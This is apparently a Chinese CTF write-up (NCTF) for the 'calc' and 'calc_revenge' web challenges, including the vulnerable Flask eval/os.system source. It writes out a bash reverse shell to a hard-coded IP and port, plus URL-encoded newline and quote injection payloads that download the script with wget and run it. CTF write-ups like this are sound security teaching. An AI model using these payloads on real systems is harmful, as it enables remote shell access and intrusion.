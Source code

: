 给出了部分源码，上面源码是rce之后拿到的源码

在vps上新建test.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/1.15.107.150/3296 0>&1
```

利用换行符截断**echo**从而执行命令

利用**单引号**来绕过**eval**的命令执行，识别为字符串就不会报错

```bash
num=%0A%27wget%27%09%27https%3A%2F%2Fxxxxxx%2Ftest.sh%27%0A
num=%0A%27bash%27%09%27test.sh%27%0A
```

![image-20221205101751530](NCTF.assets/image-20221205101751530.png)

linux单引号包围也是可以执行命令的

类似**DASCTF三月赛**，只不过那题没过滤`#`，可以用`#`截断**eval**

## calc_revenge

太魔幻了，感觉差一点点就做出来了

首先是P神的这篇文章[我是如何利用环境变量注入执行任意命令](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html)

过年加代码星球鞭策自己！

```python
 @app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip)
    
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"
```

